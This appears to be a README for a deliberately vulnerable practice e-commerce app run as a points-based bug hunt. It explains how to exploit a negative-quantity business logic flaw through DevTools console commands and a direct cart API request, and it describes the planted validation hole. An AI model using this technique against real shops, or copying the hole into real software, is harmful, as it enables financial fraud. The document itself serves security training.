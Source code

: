# ✅ Business Logic Bypass - Negative Quantity Purchase

## 🎯 **Vulnerability Overview**
- **Type**: Business Logic Bypass
- **Points**: 85
- **Severity**: Medium
- **What it does**: Allows purchasing items with negative quantities, effectively crediting money to the user's account

## 🧪 **Testing Methods**

### **Method 1: DevTools Console (Automated)**
1. Go to any product page: http://localhost:8084 (click on any product)
2. Open DevTools (F12) → Console
3. Run the automated test:
```javascript
// Automated test - finds and exploits the vulnerability
await window.testNegativeQuantity()
```

### **Method 2: DevTools Console (Manual Setup)**
1. Go to any product page: http://localhost:8084 (click on any product)
2. Open DevTools (F12) → Console  
3. Set up the test environment:
```javascript
// Makes the quantity input visible and modifiable
window.setupNegativeQuantityTest()
```
4. Manually set quantity to -5 in the now-visible input field
5. Click "Add to Cart"

### **Method 3: DevTools Manual (As Per Requirements)**
1. Navigate to any product page
2. Open Browser DevTools → Console
3. Run these exact commands:
```javascript
// Modify the quantity input to accept negative values
document.querySelector('input[name="quantity"]').setAttribute('min', '-999');
document.querySelector('input[name="quantity"]').value = '-5';

// Then click Add to Cart button manually
```
4. Click the "Add to Cart" button
5. Watch for the bug notification!

### **Method 4: Direct API Testing**
```javascript
// Direct API call with negative quantity
fetch('/api/cart/add/', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Authorization': 'Bearer ' + localStorage.getItem('access_token')
  },
  body: JSON.stringify({
    product_id: 1,
    quantity: -5
  })
})
.then(res => res.json())
.then(data => {
  console.log('Response:', data);
  if(data.bug_found) {
    console.log('🎉 BUG FOUND!', data);
  }
});
```

## 🎯 **Expected Results**

### **Success Response:**
```json
{
  "bug_found": "BUSINESS_LOGIC_BYPASS",
  "message": "🎉 Business logic bypass - negative quantity detected!",
  "description": "Negative quantity purchase attempt: -5 items",
  "points": 85,
  "vulnerability_type": "Business Logic Bypass",
  "severity": "Medium",
  "quantity": -5
}
```

### **UI Indicators:**
- ✅ Bug notification appears in the top-right corner
- ✅ Console shows "🎉 BUG FOUND!" message
- ✅ 85 points awarded to leaderboard
- ✅ Toast notification appears (error style for bug detection)

## 🔧 **Technical Implementation**

### **Backend Detection:**
- **Location**: `/api/cart/add/` endpoint
- **Detection Logic**: Checks for negative quantity BEFORE validation
- **Bypass Point**: DRF serializer validation normally prevents negative values
- **Vulnerability**: Raw request data checked before serializer validation

### **Frontend Integration:**
- **Hidden Input**: `input[name="quantity"]` exists but is hidden
- **DevTools Manipulation**: Can be made visible and modified
- **API Integration**: Direct API call with quantity value
- **Notification System**: Integrated with existing bug notification system

## 🛡️ **Normal Functionality Protected**
- ✅ Positive quantities work normally
- ✅ Cart operations unaffected for valid values
- ✅ Checkout process preserved
- ✅ Stock validation still works
- ✅ User authentication required
- ✅ Other product features unchanged

## 🎯 **Participant Discovery Process**

1. **Product Page Navigation**: User browses products normally
2. **DevTools Exploration**: Opens DevTools to inspect page
3. **Input Discovery**: Finds hidden quantity input via inspector
4. **Manipulation**: Modifies min attribute and sets negative value
5. **Exploitation**: Clicks Add to Cart with negative quantity
6. **Bug Detection**: System detects bypass and awards points

## 🔍 **Why This is a Real Vulnerability**

In real e-commerce applications, this type of business logic bypass can:
- **Credit user accounts** with money (negative cost)
- **Manipulate inventory** in unexpected ways
- **Break financial calculations** in order processing
- **Cause accounting issues** in backend systems
- **Enable financial fraud** through quantity manipulation

## ✅ **Implementation Status**
- ✅ Backend vulnerability detection working
- ✅ Frontend hidden input available for manipulation  
- ✅ DevTools console commands functional
- ✅ Bug notification system integrated
- ✅ Leaderboard integration complete
- ✅ Normal e-commerce flow preserved
- ✅ Ready for participant testing

**Test Command Summary:**
```javascript
// Quick test (automated)
await window.testNegativeQuantity()

// Manual setup
window.setupNegativeQuantityTest()

// Original DevTools approach
document.querySelector('input[name="quantity"]').setAttribute('min', '-999');
document.querySelector('input[name="quantity"]').value = '-5';
// Then click Add to Cart
```
